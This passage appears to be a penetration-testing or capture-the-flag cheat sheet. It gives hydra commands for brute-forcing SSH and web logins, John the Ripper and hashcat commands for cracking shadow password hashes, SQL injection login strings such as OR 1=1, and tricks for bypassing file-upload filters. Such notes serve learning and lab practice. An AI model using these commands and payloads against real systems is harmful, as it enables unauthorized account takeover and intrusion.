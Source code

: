 Bruteforcing SSH Username
```
hydra -L <path to wordlist> -p <password> <IP> ssh
```

Bruteforcing SSH Both
```
hydra -L <path to username wordlist> -P <path to password wordlist> <IP> ssh
```

Bruteforcing Web
```
hydra -l admin -P ~/rockyou.txt 10.10.173.237 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```

## John the ripper
common list to use is rockyou.txt

basic crack:
```
john <input file> --wordlist=<wordlist>
```
For more info see [john-the-ripper.md](tools/john-the-ripper.md)

## Hashcat
-Understand the hash you're cracking, if from shadow then use https://linuxize.com/post/etc-shadow-file/

- Put hash in file, e.g. hashes.txt
- for a SHA512 hash (starts $6$) using the rockyou.txt file:
```
hashcat -m 1800 -a 0 hashes.txt ~/Downloads/rockyou.txt
```
Look up the `-m` param at https://hashcat.net/wiki/doku.php?id=example_hashes

## Crackstation
Useful site for testing against lookup tables
[crackstation.net](https://crackstation.net)
 
# Web
- view source looking for comments
- try sql injection in logins (try usernames / passwords)
    - OR 1=1 #
    - OR 1=1 --
    - ' (to see if it errors)
    - sqlmap

## Upload Bypass
Try
  - Changing the file extension (e.g. from .php to .php5)
  - Changing the mime type via burp
  - Hex editing the file to change the first few bytes
